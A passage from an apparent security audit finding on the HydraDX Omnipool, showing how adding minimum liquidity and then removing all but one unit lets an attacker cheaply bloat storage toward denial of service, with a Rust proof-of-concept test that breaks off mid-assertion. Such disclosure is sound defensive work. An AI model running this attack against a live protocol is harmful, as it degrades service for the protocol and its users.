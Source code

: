 ```rust
if updated_position.shares == Balance::zero() {
	// All liquidity removed, remove position and burn NFT instance

	<Positions<T>>::remove(position_id);
	T::NFTHandler::burn(&T::NFTCollectionId::get(), &position_id, Some(&who))?;

	Self::deposit_event(Event::PositionDestroyed {
		position_id,
		owner: who.clone(),
	});
}
```

Unfortunately, this implementation does not take into account that a malicious user can add `MinimumPoolLiquidity` tokens, and then instantly withdraw all but 1. In that case, he has incurred almost no cost for bloating the storage (besides the 1 token and gas fees) and can keep on doing this countless times.

### Impact

The issue allows a malicious attacker to bloat the storage in a cheap way. If done often enough this allows him to DOS the functionality of the HydraDX protocol by bloating the storage significantly until it can't be maintained anymore. If the attacker uses a very low-value token, he only incurs the gas fee for each new entry.

If we consider that the intended cost for adding a new position entry (to potentially DOS) as defined by the `MinimumPoolLiquidity` should be `1_000_000` tokens, this issue allows an attacker to get the same storage bloat for `1/1_000_000` or 0.0001% of the intended cost.

### Proof of Concept

The following testcase showcases the issue:

```rust
#[test]
fn remove_liquidity_but_one() {
	ExtBuilder::default()
		.with_endowed_accounts(vec![
			(Omnipool::protocol_account(), DAI, 1000 * ONE),
			(Omnipool::protocol_account(), HDX, NATIVE_AMOUNT),
			(LP2, 1_000, 2000 * ONE),
			(LP1, 1_000, 5000 * ONE),
		])
		.with_initial_pool(FixedU128::from_float(0.5), FixedU128::from(1))
		.with_token(1_000, FixedU128::from_float(0.65), LP2, 2000 * ONE)
		.build()
		.execute_with(|| {

			let liq_added = 1_000_000; //Exactly MinimumPoolLiquidity
			let current_position_id = <NextPositionId<Test>>::get();

			assert_ok!(Omnipool::add_liquidity(RuntimeOrigin::signed(LP1), 1_000, liq_added));

			let liq_removed = 200 * ONE;
			assert_ok!(Omnipool::remove_liquidity(
				RuntimeOrigin::signed(LP1),
				current_position_id,
				1_000_000-1 //Remove all but one asset
			));

			let position = Positions::<Test>::get(current_position_id).unwrap();
			let expected = Position::<Balance, AssetId> {
				asset_id: 1_000,
				amount: 1,
				shares: 1,
```